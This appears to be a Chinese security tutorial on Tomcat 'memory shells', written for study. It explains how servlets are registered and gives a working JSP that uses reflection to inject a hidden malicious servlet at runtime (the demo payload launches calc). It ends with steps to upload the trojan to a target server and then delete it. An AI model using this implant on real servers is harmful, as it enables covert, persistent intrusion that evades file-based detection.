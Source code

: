 # Servlet内存马

Servlet内存马是通过动态注册Servlet来实现的一种内存攻击手段。在Java Web应用中，Servlet作为处理客户端请求的核心组件之一，能够直接处理HTTP请求并返回响应。攻击者利用这一点，通过程序化地向Web容器（如Tomcat）在运行时注册恶意的Servlet对象，使得该Servlet能够在没有实际文件存在的情况下执行恶意程序。

在编写我们自己的内存马之前，我们需要先搞清楚一个问题：我们写的Servlet类是怎么被装载到Web容器的。

## Servlet装载流程

1. 自己写一个Servlet

```java
package com.example.memshell;

import java.io.*;

import jakarta.servlet.http.*;

public class HelloServlet extends HttpServlet {
    public void doGet(HttpServletRequest request, HttpServletResponse response) throws IOException {
        response.setContentType("text/html");
        PrintWriter out = response.getWriter();
        out.println("hello world");
    }
}
```

2. 在web.xml定义servlet（servlet名称和类的全路径）和servlet-mapping（servlet和对应的uri）

```xml
<?xml version="1.0" encoding="UTF-8"?>
<web-app xmlns="https://jakarta.ee/xml/ns/jakartaee"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="https://jakarta.ee/xml/ns/jakartaee https://jakarta.ee/xml/ns/jakartaee/web-app_6_0.xsd"
         version="6.0">
    <servlet>
        <servlet-name>HelloServlet</servlet-name>
        <servlet-class>com.example.memshell.HelloServlet</servlet-class>
    </servlet>
    <servlet-mapping>
        <servlet-name>HelloServlet</servlet-name>
        <url-pattern>/hello</url-pattern>
    </servlet-mapping>
</web-app>
```

3. tomcat的加载部分

不卖关子，在ContextConfig#configureContext(WebXml webxml)部分。

![image](assets/image-20250619094644-3rrashb.png)

这个类来自tomcat-catalina，至于版本，和tomcat运行时环境版本保持一致

```
 <dependency>
      <groupId>org.apache.tomcat</groupId>
      <artifactId>tomcat-catalina</artifactId>
      <version>10.1.23</version>
  </dependency>
```

继续分析ContextConfig#configureContext(WebXml webxml)部分

![image](assets/image-20250619094658-4z91lex.png)

观察入参的webxml实参变量，其中就包含我们在web.xml中定义的HelloServlet和映射路径信息。分别叫webxml.servlets和webxml.servletMappings。这些信息又是在哪里被处理的呢？注意函数下这两个for循环

![image](assets/image-20250619094704-pkzfywn.png)

![image](assets/image-20250619094708-qpi85dq.png)

一个是处理servlet的循环，一个是处理url映射关系的循环。这里都用到了context这个对象。

我们看一下最关键的两行添加进容器的代码，分别是

```java
context.addChild(wrapper);
```

和

```java
context.addServletMappingDecoded(entry.getKey(), entry.getValue());
```

一个是向容器上下文中添加我们的Servlet，一个是向容器声明Servlet和URL的映射关系。

context是什么，如何获取？

答：

1. 此处的context是StandardContext

![image](assets/image-20250619094715-yk3d1t7.png)

2. HttpServletRequest.getServletContext.context.context

![image](assets/image-20250619094720-x7dnstg.png)

wrapper又是什么？

答：一个servlet的包装类，用于存放servlet的全类名、servlet对象和servlet名称。

搞清楚了这点，我们接下来的思路就简单了

## 实现机制

1. 创建恶意Servlet类
2. 获取context：StandardContext（通过反射）
3. 从context获取Wrapper对象
4. 将自己的Servlet封装进wrapper对象
5. 将wrapper添加到上下文并设置映射路径

## 示例代码

```java
<%@ page import="java.io.IOException" %>
<%@ page import="java.lang.reflect.*" %>
<%@ page import="org.apache.catalina.core.*" %>
<%@ page import="org.apache.catalina.Wrapper" %>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%!
    // 定义一个恶意servlet
   public class ShellServlet extends HttpServlet {
       @Override
       public void doGet(HttpServletRequest request, HttpServletResponse response) throws IOException {
           Runtime.getRuntime().exec("calc");
       }
   }
%>
<%
    // 从request中获取servletContext
    ServletContext servletContext = request.getServletContext();

    // 从servletContext中获取applicationContext
    Field applicationContextField = servletContext.getClass().getDeclaredField("context");
    applicationContextField.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) applicationContextField.get(servletContext);
    // 从applicationContext中获取standardContext
    Field standardContextField = applicationContext.getClass().getDeclaredField("context");
    standardContextField.setAccessible(true);
    StandardContext standardContext = (StandardContext) standardContextField.get(applicationContext);

    // 从context获取Wrapper对象
    Wrapper wrapper = standardContext.createWrapper();

    // 将自己的Servlet封装进wrapper对象
    wrapper.setName("memshell");
    wrapper.setServletClass(ShellServlet.class.getName());
    wrapper.setServlet(new ShellServlet());

    // 将wrapper添加到上下文并设置映射路径
    standardContext.addChild(wrapper);
    standardContext.addServletMappingDecoded("/memshell", "memshell");
%>
```

## 触发步骤

1. 上传jsp木马至目标服务器
2. 访问上传的jsp
3. 访问定义的恶意servlet映射路径，演示的是/memshell
4. （可选）删除.jsp文件

‍
